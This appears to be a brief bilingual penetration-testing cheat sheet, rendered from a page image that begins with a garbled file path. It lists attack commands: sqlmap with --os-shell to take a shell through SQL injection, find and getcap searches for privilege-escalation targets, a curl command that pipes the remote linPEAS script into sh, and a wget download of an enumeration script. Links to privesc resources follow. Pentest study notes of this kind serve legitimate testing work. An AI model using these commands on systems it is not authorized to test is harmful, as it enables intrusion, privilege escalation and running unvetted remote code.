 Get A Reverse Shell (MySQL)

```
sqlmap -r post_request.txt --dbms "mysql" --os-shell

```

## WebApp Paths

WebApp Paths
[https://github.com/pwnwiki/webappdefaultsdb/blob/master/README.md](https://github.com/pwnwiki/webappdefaultsdb/blob/master/README.md)

# helpful link

## 提权

[https://gtfobins.github.io](https://gtfobins.github.io/)[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

常用命令：

```
find / -perm -u=s -type f 2>/dev/null

```

```
getcap -r / 2>/dev/null

```

linPEAS command:

```
curl <https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh> | sh

```

```
wget <https://highon.coffee/downloads/linux-local-enum.sh> -O a.sh

```

tips大全网站：
[https://book.hacktricks.xyz](https://book.hacktricks.xyz/)

提权 checklist：
[https://jok3rsecurity.wordpress.com/linux-privilege-escalation/](https://jok3rsecurity.wordpress.com/linux-privilege-escalation/)
